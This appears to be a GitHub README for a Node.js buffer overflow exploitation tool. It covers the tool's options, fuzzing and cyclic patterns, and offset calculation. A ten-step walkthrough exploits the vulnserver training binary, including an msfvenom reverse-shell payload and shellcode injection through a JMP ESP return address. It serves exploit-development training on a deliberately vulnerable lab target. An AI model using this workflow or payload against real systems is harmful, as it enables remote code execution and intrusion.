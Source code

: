 # Injector

This is a tool to aid with Buffer Overflow (BOF) exploitation.

Particularly if you are following along with scenarios presented by this guide:

- YouTube: [Buffer Overflows Made Easy](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G) by The Cyber Mentor
- Windows binary: [vulnserver.exe](http://thegreycorner.com/2010/12/15/introducing-vulnserver.html)

Related tools:
- [Microsoft Windows 10 (64-bit) Virtual Machine](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- [x64dbg](https://x64dbg.com/)

The example invocations below are presented with the above scenario in mind.

## Use

```
# get help
$ node injector.mjs --help

Usage: node injector.mjs [options]

Options:
  --host, -h      hostname
  --port, -p      port
  --pre           cmd prefix
  --suf           cmd suffix
  --end           line ending (ie. "\r\n")
  --length, -l    overflow length to begin with
  --inc, -i       increment overflow by this each round
  --sleep         time to wait between rounds, in milliseconds
                    (default: 1000)
  --pattern, -P   one of: a|ab|nr|bad|shellcode|nop
                    where:
                      a = AAAA...
                      b = AAAA...BBBB
                      nr = Aa0Aa1...
                      bad = \x00\x01\x02...
                      shellcode = bytes provided on cli
                      nop = 909090...
  --filter, -f    list bytes, as one string, to filter from bad byte sequence
  --calc          position in pattern to calculate length based on
  --python        output to stdout in python format
  --count, -c     number of times to loop before exiting. -1=infinity
                    (default: 1)
  --ret, -r       return address (will be reversed for little-endian)
  --shellcode     shellcode in hexadecimal
  --nopsled, -n   length of nopsled in bytes
  --nopprefix     NOPs before payload
  --nopsuffix     more bytes appended to very end
```

## Philosophy

There are two modes it can operate in. By default you will receive the buffer in the standard output stream. Alternatively, when you provide `--host` and `--port` parameters, it will attempt to connect and transmit the buffer directly to the vulnerable service, like `echo` piped to netcat `nc` would.

```bash
# output an increasingly longer sequence of the given pattern
# (ie. find approximate overflow length which crashes vulnerable process)
$ node injector.mjs --pattern a --pre "MYCMD " --suf "\n" --length 3 --inc 7 --count 11 --sleep 1000
```
```
MYCMD AAA
MYCMD AAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
MYCMD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
- **NOTICE:** omitting `--length` would cause it to begin at a length of 0.
- **NOTICE:** omitting `--inc` would cause it to increment length by 1 reach round.
- **NOTICE:** setting `--count -1` would cause it continue incrementing until killed.
- **NOTICE:** `--pre` and `--suf` are optional based on target application's expectations.
- **NOTICE:** `--pattern ab` is the same thing, except the last 4 bytes will be `BBBB` (ie. to validate overflow alignment with EIP)

```bash
# output the bad bytes pattern at a length of 256 bytes, omitting bytes 00 and 03,
# NOTICE: the pattern will repeat to fill the requested length.
$ node injector.mjs --pattern bad --length 256 --filter "\x00\x03" | xxd
```
```
00000000: 0102 0405 0607 0809 0a0b 0c0d 0e0f 1011  ................
00000010: 1213 1415 1617 1819 1a1b 1c1d 1e1f 2021  .............. !
00000020: 2223 2425 2627 2829 2a2b 2c2d 2e2f 3031  "#$%&'()*+,-./01
00000030: 3233 3435 3637 3839 3a3b 3c3d 3e3f 4041  23456789:;<=>?@A
00000040: 4243 4445 4647 4849 4a4b 4c4d 4e4f 5051  BCDEFGHIJKLMNOPQ
00000050: 5253 5455 5657 5859 5a5b 5c5d 5e5f 6061  RSTUVWXYZ[\]^_`a
00000060: 6263 6465 6667 6869 6a6b 6c6d 6e6f 7071  bcdefghijklmnopq
00000070: 7273 7475 7677 7879 7a7b 7c7d 7e7f 8081  rstuvwxyz{|}~...
00000080: 8283 8485 8687 8889 8a8b 8c8d 8e8f 9091  ................
00000090: 9293 9495 9697 9899 9a9b 9c9d 9e9f a0a1  ................
000000a0: a2a3 a4a5 a6a7 a8a9 aaab acad aeaf b0b1  ................
000000b0: b2b3 b4b5 b6b7 b8b9 babb bcbd bebf c0c1  ................
000000c0: c2c3 c4c5 c6c7 c8c9 cacb cccd cecf d0d1  ................
000000d0: d2d3 d4d5 d6d7 d8d9 dadb dcdd dedf e0e1  ................
000000e0: e2e3 e4e5 e6e7 e8e9 eaeb eced eeef f0f1  ................
000000f0: f2f3 f4f5 f6f7 f8f9 fafb fcfd feff 0102  ................
```

```bash
# output a non-repeating pattern of given length
# (e.g., similar to UV colormap in shader debugging)
# provides ability to measure memory layout with precision
$ node injector.mjs --pattern nr --length 333
```
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0
```

```bash
# take a given sequence of the pattern bytes found in memory (ie. in hexidecimal)
# and calculate its offset
# (ie. if we take the pattern found in EIP bytes, we get the length of the buffer)
$ node injector.mjs --calc 386F4337

offset at 386F4337 is 2003 bytes.
please specify pattern.
```
- **NOTICE:** The `--calc` bytes get reversed, so you don't have to convert little-endianness. Just copy-paste what you see in your debugger.


## Example Guide Walkthrough

If you follow the guide linked above, these commands would work.

```bash
# 1. confirm user input overflow causes crash.
$ export PRE="TRUN /.:/"
$ node injector.mjs --host 127.0.0.1 --port 9999 --pattern nr --pre $PRE --length 10000
# it does.
# we take the EIP `386F4337`
# we restart debugger and vulnerable process
```

```bash
# 2. (optional) verify the return address becomes EIP (BBBB)
$ node injector.mjs --host 127.0.0.1 --port 9999 --pattern ab --pre $PRE --calc 386F4337
# it aligns perfectly
# we restart debugger and vulnerable process
```

```bash
# 3. (recommended) send all possible bytes, in order to verify whether any are considered bad
$ node injector.mjs --host 127.0.0.1 --port 9999 --pattern bad --filter "\x00" --pre $PRE --calc 386F4337
# it looks like these bytes were missing:
# \x04\x05\x3b\x3c\x47\x48\x4a\x4b\xb9\xba
# we restart debugger and vulnerable process
```

4. Use `mona.py` to locate an address that is already loaded into memory with the assembly instructions we want our EIP return to point to. (ie. a `FF E4` `JMP ESP` instruction)
5. Set a breakpoint at that address in the debugger.

```bash
# 6. (optional) verify program jumps to our breakpoint
$ node injector.mjs --host 127.0.0.1 --port 9999 --pattern ab --pre $PRE --calc 386F4337 --ret 625011AF
# indeed, we've caught our breakpoint
# we restart debugger and vulnerable process
```

```bash
# 7. generate reverse shell code
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f hex -b "\x04\x05\x3b\x3c\x47\x48\x4a\x4b\xb9\xba"
Payload size: 348 bytes
$ export SHELLCODE=33c983e9afe8ffffffffc05e81760...
```

8. We prepare to receive our reverse shell with our preferred multi-handler listener. (In my case, [`ncmdr`](https://github.com/mikesmullin/ncmdr))

```bash
# 9. inject shellcode (8 nop bytes was lower end required, but 32 is safer if you have room)
$ node injector.mjs --host 127.0.0.1 --port 9999 --pattern shellcode --pre $PRE --calc 386F4337 --ret 625011AF --nopsled 32 --shellcode $SHELLCODE
```

10. Shell is received.

## Future Ideas

The intention is for the tool to be capable of all variety of configurations for concatenating buffer overflows and shellcode, to meet any scenario. Of course, an extreme example of a tool that already does this is an assembler like NASM. But we're trying to make it easier than writing assembly code, by tying together patterns and a simple templating language.

It might be easier to take an `ffuf` approach by specifying a string or file input from disk and doing a string replacement on it (ie. `FUZZ` or `W1` etc.).

In some cases the shellcode goes at the end, and in some cases you want it at the front. In some cases you may want to add inbetween instructions for `JMP`ing back and forth, depending on what instructions you have to exploit in linked libraries. These edge cases are currently a tad too tricky. What I currently do is use this tool to get close, then output in `\x00\x01` (ie. `--python`) format, take it into `vscode`, and manipulate the bytes manually from there. But it would be nice if this tool could do it all for you with a few simple command-line arguments.

A future version of this tool might be translated into `golang` so it is portable and doesn't require an interpreter (ie. `nodejs`) to be installed.